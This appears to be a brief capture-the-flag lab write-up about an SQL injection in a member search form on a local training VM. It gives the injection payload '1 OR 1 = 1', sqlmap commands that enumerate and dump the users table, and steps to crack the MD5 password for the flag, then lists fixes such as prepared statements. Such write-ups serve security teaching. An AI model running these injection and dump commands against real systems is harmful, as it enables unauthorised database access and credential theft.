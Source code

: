 # SQL Injection Member

The form in the member page has an input value which isn't sanatized when processed by the server.

## Steps
* Go to the  <a href="http://192.168.56.102/?page=member">member page</a>
* In the form input enter:
```bash
1 OR 1 = 1
```
* Press the submit button.
* Run reconnaissance
```bash
sqlmap "http://192.168.56.102/?page=member&id=1+OR+1+%3D+1&Submit=Submit#" --tables
```
* We want to extract information from the users table:
```bash
sqlmap "http://192.168.56.102/?page=member&id=1+OR+1+%3D+1&Submit=Submit#" --dump -T users
```
<img src="https://i.imgur.com/czJyCei.png" />

* <a href="" target="_blank">MD5 Decrypt</a> the password
* To get the key, run
```bash
py sha256encrypt.py fortytwo
```

## Ways to secure
* Always validate and sanatize input from client.
* Use prepared statements and stored procedures.

